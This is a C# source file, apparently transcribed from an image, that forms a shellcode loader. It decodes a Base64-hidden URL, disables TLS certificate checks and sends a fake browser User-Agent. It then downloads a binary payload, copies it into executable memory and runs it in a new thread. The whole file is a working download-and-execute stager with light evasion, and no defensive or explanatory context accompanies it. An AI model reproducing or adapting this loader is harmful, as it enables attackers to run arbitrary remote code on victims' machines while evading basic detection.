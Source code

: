 using System;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;
using System.Text;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern uint GetLastError();

    static void Main()
    {
        string encodedUrl = "aHR0cHM6Ly8xOTIuMTY4LjAuMTAyLzQuYmlu"; // URL codificada en Base64

        ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

        using (WebClient client = new WebClient())
        {
            client.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3");
                        
            string url = Encoding.UTF8.GetString(Convert.FromBase64String(encodedUrl));

            byte[] binData = client.DownloadData(url);

            
            IntPtr codePointer = VirtualAlloc(IntPtr.Zero, (uint)binData.Length, 0x1000, 0x40);

            Marshal.Copy(binData, 0, codePointer, binData.Length);

            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, codePointer, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(threadHandle, 0xFFFFFFFF);

            VirtualFree(codePointer, 0, 0x8000);
        }
    }
}
